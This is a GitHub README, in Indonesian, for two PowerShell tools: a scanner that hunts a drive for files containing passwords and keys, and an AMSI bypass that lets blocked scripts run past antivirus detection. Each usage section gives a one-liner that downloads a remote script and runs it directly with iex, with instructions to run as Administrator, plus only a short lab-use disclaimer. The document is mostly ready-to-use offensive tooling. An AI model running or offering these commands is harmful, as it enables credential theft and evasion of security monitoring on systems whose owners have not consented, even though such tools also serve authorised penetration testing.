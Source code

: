 # 🕵️ Invoke-FileHunter & AMSI Bypass Tools

PowerShell tool untuk:

* Mencari file konfigurasi yang berisi credential atau data sensitif (Invoke-FileHunter)
* Melewati Antimalware Scan Interface agar script PowerShell bisa dijalankan tanpa deteksi (AMSI Bypass)

---

## 📦 1. Cara Pakai Invoke-FileHunter

Buka PowerShell dengan hak akses Administrator, lalu jalankan:

```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/irsyad521/PowershellScript/refs/heads/main/Invoke-FileHunter.ps1')
Invoke-FileHunter -Path "C:\" -OutputLog "C:\Users\Public\Documents\ScanResults.txt"
```

### 🔧 Parameter

| Parameter    | Deskripsi                                                              | Default                                     |
| ------------ | ---------------------------------------------------------------------- | ------------------------------------------- |
| `-Path`      | Lokasi direktori yang ingin dipindai                                   | `C:\`                                       |
| `-OutputLog` | Lokasi file hasil scan (berisi file + keyword sensitif yang ditemukan) | `C:\Users\Public\Documents\ScanResults.txt` |

### 🧪 Contoh:

```powershell
Invoke-FileHunter -Path "C:\" -OutputLog "C:\Users\Public\Documents\ScanResults.txt"
Invoke-FileHunter -Path "$env:USERPROFILE\Desktop" -OutputLog "C:\Users\Public\Documents\DesktopScan.txt"
```

---

## 🔓 2. Cara Pakai AMSI Bypass

Jika PowerShell memblokir script karena terdeteksi sebagai malicious, aktifkan bypass terlebih dahulu:

```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/irsyad521/PowershellScript/refs/heads/main/amsi-bypass.ps1')
Invoke-BypassAMSIVersion3
```

> ⚠️ **PERINGATAN:**
> AMSI Bypass dapat digunakan untuk menjalankan script yang diblokir oleh antivirus. Gunakan hanya di lab/pengujian atau sistem milik sendiri. Jangan gunakan untuk tujuan ilegal.

---

## 📄 Hasil Scan

Hasil dari `Invoke-FileHunter` akan disimpan ke file log. Contoh isi file hasil:

```
C:\inetpub\wwwroot\web.config - Found keywords: password, key
C:\Users\user\Documents\db_config.ini - Found keywords: password
```

---

## 📝 Catatan

* Jalankan PowerShell **sebagai Administrator**.
* Hindari scanning folder seperti `C:\Windows\WinSxS` untuk mengurangi waktu eksekusi.
* Tools ini tidak membuat perubahan di sistem—hanya membaca file.

---

## 📬 Kontak

Script ini dikembangkan oleh [Irsyad](https://github.com/irsyad521)
Silakan buka issue atau pull request jika ada bug, saran, atau perbaikan.

---

Terima kasih sudah menggunakan tools ini!
